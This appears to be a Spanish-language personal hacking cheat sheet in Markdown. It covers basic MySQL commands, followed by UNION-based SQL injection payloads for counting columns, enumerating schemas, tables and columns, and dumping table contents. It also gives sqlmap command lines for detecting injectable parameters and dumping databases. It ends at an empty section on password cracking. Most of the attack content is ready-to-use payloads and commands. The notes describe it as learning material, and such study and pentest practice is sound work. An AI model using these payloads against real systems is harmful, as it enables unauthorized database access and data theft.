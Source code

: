 # HACKING

> Aqui el escenario es variado y va a depender mucho de la fase de reconocimiento, se debe tener muy presente que tipo de servicios se encontraron expuestos pero sobre todo las versiones, a continuacion alguna de los ataques que he ido aprendiendo

<br>

## SQL INJECTION

### Comandos Basicos de MySQL

``CREATE DATABASE <NOMBRE_DB>;``

``SHOW DATABASES;``

``USE <NOMBRE_DB>;``

``CREATE TABLE <NOMBRE_TABLA>(COLUMNA1 TIPO, COLUMNA2 TIPO, COLUMNA3 TIPO);``

> Los tipos de campos dentro de las tablas son: int(32) = Numeros Enteros, varchar(32) = Caracteres, char(80), longtext

``SHOW TABLES;``

``DESCRIBE <NOMBRE_TABLA>;`` --> Ver Columnas de una Tabla

``SELECT <COLUMNA1,COLUMNA2> FROM <NOMBRE_TABLA>;`` --> Muestra los datos de una Tabla

``SELECT <COLUMNA1,COLUMNA2> FROM <NOMBRE_TABLA> WHERE <COLUMNA1>='DATO';`` --> Para filtrar por un dato especifico

``SELECT * FROM <NOMBRE_TABLA>;`` --> Muestra todos los datos de una Tabla

``CREATE USER 'NOMBRE'@'IP' IDENTIFIED BY 'PASSWORD';``

``GRANT ALL PRIVILEGES ON NOMBRE_DB.* TO 'USUARIO'@'IP';``

<br>

### Querys para SQL Injection

``valor' ORDER BY 100'-- -`` --> Ayuda a identificar el numero de columnas

``valor' UNION SELECT database()-- -``

``valor' UNION SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata -- -`` --> Si tiene una sola columna

``valor' UNION SELECT GROUP_CONCAT(schema_name), NULL, NULL FROM information_schema.schemata -- -`` --> Si se identifico que tiene varias columnas un NULL por cada columna

``valor' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='nombre_db' -- -``

``valor' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema='nombre_db' AND table_name='tabla' -- -``

``valor' UNION SELECT GROUP_CONCAT(columna) FROM nombre_db.tabla -- -``

<br>

### Injeccion de SQL con SQLMAP

> Para el uso de SQLMAP se puede capturar una peticion POST y guardarla en un archivo .req o identificar los campos inyectables en una url

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> --batch`` --> Para identificar rapidamente si es inyectable o no

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> --dbs --batch`` --> Para listar bases de datos

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> --tables`` --> Para ver las tablas

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> -T <nombre_tabla> --columns`` --> Para ver las columnas de una tabla

``sqlmap -r <archivo.req> -p <nombre_payload o campo_inyectable> -D <nombre_db> -T <nombre_tabla> -C <col1,col2,col3> --dump`` --> Para volcar todos los campos de una tabla

<br>

### Descifrado de Contrasenas



